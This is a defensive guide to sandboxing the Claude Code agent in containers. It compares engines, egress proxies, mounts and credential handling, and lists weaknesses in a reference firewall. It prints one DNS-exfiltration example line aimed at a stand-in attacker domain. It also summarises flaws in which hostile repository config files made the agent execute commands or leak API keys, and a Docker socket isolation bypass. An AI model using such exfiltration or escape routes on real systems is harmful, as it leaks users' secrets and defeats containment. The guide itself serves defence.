







claude --dangerously-skip-permissionsFive ways to put the agent in a box.
Only one of them holds the network.
Rootless Podman vs rootless Docker vs Docker on the default daemon vs the Dev Containers spec vs Anthropic's reference devcontainer — scored on isolation strength, egress control and daily friction, with the reference firewall's four defects on the alarm panel.
Rootless Podman · --userns=keep-id · repo-only bind mount · egress through a proxy sidecar on an --internal network — not NET_ADMIN + iptables.
Anthropic's reference devcontainer is a good shape but a weak boundary: it allows unrestricted outbound DNS [4], allowlists all of GitHub's CIDR space, and grants the agent's own container CAP_NET_ADMIN [14]. If the repo is genuinely untrusted, skip containers and use a Proxmox VM — Anthropic says the same [1].
Containment matters even if you trust the model: three disclosed Claude Code flaws achieved command execution or API-key exfiltration purely from repository-local config files — .claude/settings.json, .mcp.json, ANTHROPIC_BASE_URL — because "configuration files effectively become part of the execution layer" [29]. A container turns cloned a hostile repo from a host compromise into a workspace compromise.
Engine rack
green = capability · amber = cost you pay

--dangerously-skip-permissions as root [2].
devcontainer.json is a portable description of an environment [31] that the devcontainer CLI ⭐ 2.9k [32] or your editor materialises on Docker or Podman. Security properties come from the engine underneath and the runArgs you put in it.
What an escape actually needs
kernel-level readout — decides how much rootless buys you
All five options in the rack share one kernel — yours. Every difference between them is a difference in which of these three kernel facilities is switched on, and who is allowed to switch it back off.
Practical reading: containers are a good blast-radius reducer against a hostile repo, not a boundary you'd bet on against a targeted kernel exploit. On a single-user workstation, "escape lands you as you" is a smaller win than it sounds — your home directory, SSH keys and sudo rights all belong to you. That's the VM's job.
Alarm panel · Anthropic reference devcontainer
3 files: devcontainer.json · node:20 Dockerfile · init-firewall.shmain
anthropics/claude-code ⭐ 140k
iptables -A OUTPUT -p udp --dport 53 -j ACCEPT permits queries to any resolver, so dig @attacker-dns $(base64 secret).evil.com walks straight out of the default-deny firewall.
Filed with a repro and a one-line fix — restrict to 127.0.0.11 — and closed as not planned [4].
The script ingests .web, .api and .git CIDR blocks from api.github.com/meta [3]. Those ranges serve gists, arbitrary repos and GitHub Pages — an agent with a token, or none at all via a public gist, has a write channel to the internet.
Port 22 is also unconditionally allowed, which is git push to anywhere.
+ local /24 — the script allows the detected host network as a /24 [3].
On a homelab LAN that is your Proxmox API, your NAS, your router admin.
The agent's container holds CAP_NET_ADMIN and CAP_NET_RAW [14]. The non-root node user cannot use them — added capabilities land in the bounding set, not a non-root process's effective set — so this is defence-in-depth-shaped rather than broken.
But any root-in-container bug flushes the whole firewall. Better designs move NET_ADMIN out of the agent's container entirely [5].
source=${localWorkspaceFolder},target=/workspace,type=bind — the host home is not mounted [14].~/.claude and shell history live in per-devcontainer volumes keyed on ${devcontainerId}, with CLAUDE_CONFIG_DIR set so .claude.json lands inside too [2].node ALL=(root) NOPASSWD: /usr/local/bin/init-firewall.sh and nothing else [15]. No general sudo, no writable escalation path.OUTPUT/INPUT/FORWARD with an ipset allowlist, and an assertion that example.com fails while api.github.com/zen succeeds [3].Egress routing · three architectures
worst → bestiptables + NET_ADMIN — the Anthropic patternIP-level only, so it cannot distinguish api.anthropic.com from any other host behind the same CDN IP, cannot see DNS, and the enforcement lives inside the thing being contained. It also barely works rootless: iptables in a rootless container needs both NET_ADMIN and NET_RAW, and the ip_tables/xt_* modules must already be loaded on the host, because module loading needs real root [16] [17].
HTTPS_PROXY pointed at a filtering proxyHostname-aware and loggable, but opt-in: anything that ignores the environment variable goes direct. Claude Code honours HTTPS_PROXY/NO_PROXY and NODE_EXTRA_CA_CERTS, but not SOCKS [21] — which is exactly what a MITM proxy needs.
Compose's internal: true "lets you create an externally isolated network" [22]; Podman's --internal "restricts external access of this network" [24]. The agent container has no route off the box, so the proxy is not a suggestion. --network=none is strictly worse — with no interface at all the agent cannot reach the proxy either.
The embedded resolver at 127.0.0.11 forwards names it cannot answer to the host's upstream resolvers [23], so DNS tunnelling still exits an internal: true network. Fix it by pointing the container at your own resolver via dns: and having that resolver answer only allowlisted names — non-permitted domains resolve to a placeholder IP [34]. Podman sidesteps it: --internal disables the DNS plugin outright, so you must supply --dns explicitly [24].
Allowlist readout
what Claude Code actually needs — and what it does not| Channel | Hosts | Verdict |
|---|---|---|
| Inference + WebFetch preflight | api.anthropic.com | allow |
| Sign-in / OAuth refresh | claude.ai · claude.com · platform.claude.com | allow |
| Updates, plugins | downloads.claude.ai · storage.googleapis.com · registry.npmjs.org | allow |
| Docs, release notes | code.claude.com · raw.githubusercontent.com | allow |
| Optional / droppable | mcp-proxy.anthropic.com · bridge.claudeusercontent.com · http-intake.logs.us5.datadoghq.com · browser-intake-us5-datadoghq.com · formulae.brew.sh | drop |
| Your git workflow | github.com | not required |
Set CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC=1 and DISABLE_AUTOUPDATER=1 in containerEnv and the droppable row mostly disappears [2]. Note that nothing in the required list is github.com — that's for your git workflow, and it's the exfil channel.
Mount plane · the rootless UID trap
mount the repo, nothing elsechown gymnastics.:z (shared, multiple containers) or :Z (private, exclusive). Use :z for a repo you also open in a host editor. Drop label=disable and keep the confinement — which you want."runArgs": ["--userns=keep-id:uid=1000,gid=1000", "--security-opt=label=disable"], "containerUser": "node", "updateRemoteUserUID": true
Not $HOME, not ~/.ssh, not ~/.aws — Anthropic's own guidance is to prefer repository-scoped or short-lived tokens over mounting host secret files [2].
Credential plane
the host keyring is never mounted~/.claude in a named volume with CLAUDE_CONFIG_DIR pointing at it, keyed on ${devcontainerId} so repos don't share one token store [2].~/.claude token is annoying; a stolen broad-scope GitHub PAT is a supply-chain incident..gitconfig in, reuses your host credential helper — "credentials you've entered locally will be reused in the container" — and forwards your host SSH agent automatically [28]. That convenience hands an unattended agent your push rights to everything.containerEnv (GIT_AUTHOR_NAME, GIT_AUTHOR_EMAIL, GIT_COMMITTER_*), let the agent commit but never push, and push from the host yourself.Interlock · Docker socket
do not open/var/run/docker.sock is host root by another name.The container can just start a --privileged sibling [26]. It defeats every other control on this page, and it is not redeemed by rootless mode: rootless just makes the socket equal to your user rather than root, which on a workstation is the account that matters.
Even purpose-built guards leak. CVE-2026-6406 bypassed Docker Desktop's Enhanced Container Isolation because --use-api-socket mounts the socket via HostConfig.Mounts while the policy check only inspected HostConfig.Binds [27].
If the agent needs to build images: rootless Podman inside the container, or a separate builder it talks to over a proxied API. Never the outer socket.
Recommended wiring
rootless Podman · agent on an internal network ·NET_ADMIN nowhere near the agent
# rootless Podman prerequisites sudo apt install podman podman-compose uidmap slirp4netns grep "$USER" /etc/subuid /etc/subgid # must exist, >=65536 IDs systemctl --user enable --now podman.socket podman network create --internal --disable-dns agent-net podman network create egress-net
services: proxy: build: ./proxy # mitmproxy + allowlist addon + dnsmasq networks: [agent-net, egress-net] volumes: - ./allowlist.yaml:/etc/proxy/allowlist.yaml:ro,z - ~/.config/agent/secrets:/secrets:ro,z # secrets live HERE, not in the agent - proxy-ca:/ca agent: build: . networks: [agent-net] # no route off the host dns: [10.89.1.2] # the proxy's dnsmasq; allowlist-only answers userns_mode: "keep-id:uid=1000,gid=1000" cap_drop: [ALL] security_opt: [no-new-privileges] environment: HTTPS_PROXY: http://proxy:8080 HTTP_PROXY: http://proxy:8080 NO_PROXY: localhost,127.0.0.1 NODE_EXTRA_CA_CERTS: /ca/mitmproxy-ca-cert.pem CLAUDE_CONFIG_DIR: /home/node/.claude CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC: "1" DISABLE_AUTOUPDATER: "1" GIT_AUTHOR_NAME: "Wouter (agent)" GIT_AUTHOR_EMAIL: "agent@localhost" volumes: - ./:/workspace:z # the repo, and nothing else - claude-config:/home/node/.claude - proxy-ca:/ca:ro working_dir: /workspace command: ["claude", "--dangerously-skip-permissions"] networks: agent-net: { external: true } egress-net: { external: true } volumes: claude-config: proxy-ca:
FROM node:22-bookworm-slim RUN apt-get update && apt-get install -y --no-install-recommends \ git ripgrep ca-certificates && rm -rf /var/lib/apt/lists/* RUN npm install -g @anthropic-ai/claude-code@2.1.220 # pin; auto-update is off RUN mkdir -p /etc/claude-code COPY managed-settings.json /etc/claude-code/managed-settings.json USER node
managed-settings.json at /etc/claude-code/managed-settings.json is read at the highest precedence in the settings hierarchy, above anything the repo's .claude/ can set [2] — the right place to pin deny rules a hostile repo must not be able to widen, which is exactly the class of bug CVE-2025-59536 was [29]. Want editor integration? Wrap the same container in devcontainer.json with an initializeCommand creating the networks plus the runArgs above, and drive it headless with devcontainer up --workspace-folder . when you don't want the IDE's management channel in the picture [32].
Reference implementations · copy, don't reinvent
all three put the firewall outside the agent
Devcontainer + compose. mitmproxy in WireGuard mode; a wg-client sidecar holds NET_ADMIN and the agent container shares its network namespace, inheriting the tunnel with no capabilities of its own. Rules are first-match-wins deny-by-default, DNS is evaluated against the same ruleset [5].
SANDCAT_PLACEHOLDER_* env vars the proxy substitutes for allowed hosts only.

Same two-layer idea: mitmproxy sidecar plus in-container iptables so only the proxy is reachable, with secrets mounted into the proxy alone [25].
Friction log · honestly
what you pay, day to dayapt so a toolchain change doesn't re-download it. The Dev Container Feature always pulls latest, which is why the Dockerfile uses npm install -g …@X.Y.Z [2].CAP_NET_BIND_SERVICE on the rootlesskit binary or net.ipv4.ip_unprivileged_port_start=0 [7].--cpus/--memory only on cgroup v2 + systemd [7]. Worth checking before you let an agent run a build loop unattended.unshare [1] [10].containerEnv, commits inside, pushes from the host.Residual risk · what none of this stops
escalation pathThe workspace is writable, so anything Claude can read in /workspace it can also send to any allowlisted host — and it can rewrite your code [1]. Isolation also doesn't change what goes to the model.
The practitioner and vendor answers converge: a separate kernel — a Proxmox VM, a microVM, or Docker Desktop's sandboxes feature [33] [30] — with the container pattern above running inside it.
Two boundaries, not one. Proxmox as the isolation boundary →
$HOME holds your whole identity, and on Linux the keyring does not help.